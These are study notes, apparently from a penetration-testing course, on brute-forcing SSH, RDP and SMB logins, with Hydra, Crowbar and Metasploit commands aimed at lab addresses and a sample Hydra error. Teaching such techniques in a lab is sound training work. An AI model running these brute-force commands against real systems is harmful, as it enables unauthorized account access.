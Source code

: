 [Secure Shell](https://www.ssh.com/academy/ssh/protocol) (`SSH`) is a more secure way to connect to a remote host to execute system commands or transfer files from a host to a server. The SSH server runs on `TCP port 22` by default, to which we can connect using an SSH client. This service uses three different cryptography operations/methods: `symmetric` encryption, `asymmetric` encryption, and `hashing`.

We can use a tool such as `Hydra` to brute force SSH.

```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```

## <mark class="hltr-cyan">RDP</mark>

We can also use `Hydra` to perform RDP bruteforcing.

```shell-session
hydra -L user.list -P password.list rdp://10.129.42.197
```

Or crowbar
```
crowbar -b rdp -u Johanna -s 10.129.104.235/32 -C htb_academy/password_attacks/mut_password.list -v
```

## <mark class="hltr-cyan">SMB</mark>

[Server Message Block](https://docs.microsoft.com/en-us/windows/win32/fileio/microsoft-smb-protocol-and-cifs-protocol-overview) (`SMB`) is a protocol responsible for transferring data between a client and a server in local area networks.

### <mark class="hltr-orange">Hydra</mark>
For SMB, we can also use `hydra` again to try different usernames in combination with different passwords.

```shell-session
hydra -L user.list -P password.list smb://10.129.42.197
```


However, we may also get the following error describing that the server has sent an invalid reply:
```
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 25 login tries (l:5236/p:4987234), ~25 tries per task
[DATA] attacking smb://10.129.42.197:445/
[ERROR] invalid reply from target smb://10.129.42.197:445/
```

This is because we most likely have an outdated version of THC-Hydra that cannot handle SMBv3 replies. To work around this problem, we can use one of the <mark class="hltr-green">metasploit</mark> modules.

### <mark class="hltr-orange">Metasploit</mark>

```shell-session
msfconsole -q
use auxiliary/scanner/smb/smb_login
set user_file user.list
set pass_file pass.list
set rhosts 10.129.10.12
run
```


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>